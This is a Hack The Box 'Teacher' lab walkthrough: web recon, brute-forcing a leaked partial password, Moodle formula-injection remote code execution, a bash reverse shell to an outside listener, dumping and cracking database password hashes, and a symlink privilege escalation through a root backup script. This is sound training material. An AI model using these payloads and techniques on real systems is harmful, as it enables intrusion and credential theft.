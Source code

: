# HTB - Teacher
## OS - Linux

Teacher's IP address is 10.10.10.153. Started with an nmap scan.
```
$nmap -sC -sV -oN nmap 10.10.10.153
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-06 07:59 PDT
Nmap scan report for 10.10.10.153
Host is up (0.088s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blackhat highschool

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.11 seconds
```


Only port 80 is open.
The web interface shows a web page for school. There's an announcement that the web portal was new, that the students can submit their work. Only gallery.html seems to be working.

In the gallery page, the teacher photos are seen. One of the photos is not visible, the rest are not rendered properly. If we view the source of the page, we see that the photo that is not rendered is http://10.10.10.153/images/5.png.

When we curl that image, we see a note.
```
$curl http://10.10.10.153/images/5.png
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni

```

Ran dirbuster but it stopped after a few errors. Gobuster worked fine.

```
$gobuster dir -t 40 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.153
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.153
[+] Threads:        40
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/09/06 12:05:28 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/manual (Status: 301)
/js (Status: 301)
/javascript (Status: 301)
/fonts (Status: 301)
/phpmyadmin (Status: 403)
/moodle (Status: 301)

```
/moodle shows the Teachers page, and lists Algebra course with teacher Giovanni Chhatta.

Giovanni's link - http://10.10.10.153/moodle/user/view.php?id=3&course=1
Algebra course link - http://10.10.10.153/moodle/course/view.php?id=2

We try to login as giovanni using part of the password given above, and then enumerate using intruder to find the full password.

giovanni's password is Th4C00lTheacha#.

Exploring the site as giovanni shows a message to admin:
```
Hey admin.

How am I supposed to create a quiz? I'm kinda in a hurry since I need this for tomorrow.

Kind regards,
Giovanni
```

Took a while to repro this part, but finally, the formula worked for /*{a*/`$_REQUEST[rad]`;//{x}}

and then in the URL:
http://10.10.10.153/moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7

added the parameter:
&rad=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.4/6000+0>%261'

Got a nc shell.

```
$nc -lvnp 6000
listening on [any] 6000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.153] 48092
bash: cannot set terminal process group (829): Inappropriate ioctl for device
bash: no job control in this shell
www-data@teacher:/var/www/html/moodle/question$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@teacher:/var/www/html/moodle/question$ python -c 'import pty;pty.spawn("/bin/bash")'
<tion$ python -c 'import pty;pty.spawn("/bin/bash")'
```

There is a config.php in moodle that shows:
```
www-data@teacher:/var/www/html/moodle$ cat config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8mb4_unicode_ci',
);

$CFG->wwwroot   = 'http://10.10.10.153/moodle';
$CFG->dataroot  = '/var/www/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
www-data@teacher:/var/www/html/moodle$ 
```

```
MariaDB [moodle]> select id,username,password from mdl_user;
+------+-------------+--------------------------------------------------------------+
| id   | username    | password                                                     |
+------+-------------+--------------------------------------------------------------+
|    1 | guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |
|    2 | admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |
|    3 | giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |
| 1337 | Giovannibak | 7a860966115182402ed06375cf0a22af                             |
+------+-------------+--------------------------------------------------------------+
4 rows in set (0.00 sec)
```

went to crackstation to crack the last hash.
```
7a860966115182402ed06375cf0a22af	md5	expelled
```

We can use this password to su as giovanni and get the user flag.


To get root flag:
There is a backup script in /usr/bin.

```
giovanni@teacher:/usr/bin$ cat backup.sh 
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```

```
giovanni@teacher:~/work$ mv courses courses.bak
giovanni@teacher:~/work$ ls
courses.bak  tmp
giovanni@teacher:~/work$ ln -s /root courses
giovanni@teacher:~/work$ ls -l
total 8
lrwxrwxrwx 1 giovanni giovanni    5 Sep  7 01:04 courses -> /root
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27  2018 courses.bak
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27  2018 tmp
giovanni@teacher:~/work$ cd courses
-su: cd: courses: Permission denied
giovanni@teacher:~/work$ cd tmp
giovanni@teacher:~/work/tmp$ ls
backup_courses.tar.gz  courses
giovanni@teacher:~/work/tmp$ cd courses/
giovanni@teacher:~/work/tmp/courses$ ls
algebra  root.txt
giovanni@teacher:~/work/tmp/courses$ cat root.txt 
4f3a83b42ac7723a508b8ace7b8b1209
giovanni@teacher:~/work/tmp/courses$ 
```
